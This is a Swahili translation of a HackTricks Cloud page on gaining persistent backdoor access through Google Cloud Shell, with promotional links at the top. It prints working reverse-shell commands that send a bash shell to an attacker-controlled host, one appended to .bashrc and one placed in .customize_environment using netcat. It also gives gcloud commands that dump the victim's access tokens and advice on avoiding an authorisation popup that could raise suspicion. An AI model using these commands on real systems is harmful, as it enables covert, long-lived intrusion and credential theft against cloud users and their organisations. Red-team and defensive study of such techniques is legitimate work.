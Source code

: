 # GCP - Uhifadhi wa Cloud Shell

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* &#x20;repos za github.

</details>

## Cloud Shell

Kwa habari zaidi angalia:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Mlango wa Nyuma wa Kudumu

[**Google Cloud Shell**](https://cloud.google.com/shell/) inakupa ufikiaji wa amri kwa rasilimali zako za wingu moja kwa moja kutoka kwenye kivinjari chako bila gharama yoyote inayohusiana.

Unaweza kupata Cloud Shell ya Google kutoka kwenye **konsoli ya wavuti** au kwa kukimbia **`gcloud cloud-shell ssh`**.

Konsoli hii ina uwezo wa kuvutia kwa wadukuzi:

1. **Mtumiaji yeyote wa Google mwenye ufikiaji wa Google Cloud** ana ufikiaji wa kipengele cha Cloud Shell kilichothibitishwa kabisa (Akaunti za Huduma zinaweza, hata ikiwa ni Wamiliki wa shirika).
2. Kipengele hicho **kitahifadhi saraka yake ya nyumbani kwa angalau siku 120** ikiwa hakuna shughuli inayotokea.
3. Hakuna **uwezo wa shirika kufuatilia** shughuli ya kipengele hicho.

Hii kimsingi inamaanisha kwamba mshambuliaji anaweza kuweka mlango wa nyuma kwenye saraka ya nyumbani ya mtumiaji na muda mrefu kama mtumiaji anajiunganisha kwenye GC Shell kila baada ya siku 120 angalau, mlango wa nyuma utaendelea kuwepo na mshambuliaji atapata kikao kila wakati unapoendeshwa tu kwa kufanya:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
Kuna faili nyingine katika folda ya nyumbani inayoitwa **`.customize_environment`** ambayo, ikiwepo, itatekelezwa **kila wakati** mtumiaji anapopata **shell ya wingu** (kama katika mbinu iliyopita). Ingiza mlango wa nyuma uliopita au moja kama ifuatavyo kudumisha uthabiti muda mrefu mtumiaji anapotumia "mara kwa mara" shell ya wingu:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Ni muhimu kuzingatia kwamba **wakati kitendo kinachohitaji uthibitisho kinatekelezwa kwa mara ya kwanza**, dirisha la idhini linatokea kwenye kivinjari cha mtumiaji. Dirisha hili lazima lipokelewe kabla ya amri kuendeshwa. Ikiwa dirisha lisilotarajiwa litatokea, linaweza kuzua shaka na kuhatarisha njia ya uthabiti inayotumiwa.
{% endhint %}

Hii ni dirisha la idhini kutoka kwa kutekeleza `gcloud projects list` kutoka kwa ganda la wingu (kama mshambuliaji) inayoonekana kwenye kikao cha mtumiaji wa kivinjari:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Hata hivyo, ikiwa mtumiaji ameitumia ganda la wingu kikamilifu, dirisha la idhini halitatokea na unaweza **kukusanya vibali vya mtumiaji na**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Jinsi uhusiano wa SSH unavyoundwa

Kimsingi, maombi haya 3 ya API hutumiwa:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (itakufanya uongeze ufunguo wako wa umma uliyoumba kwa upande wako)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (itakufanya uanzishe kipengee)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (itakwambia anwani ya IP ya ganda la Google Cloud)

Lakini unaweza kupata habari zaidi katika [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Marejeo

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
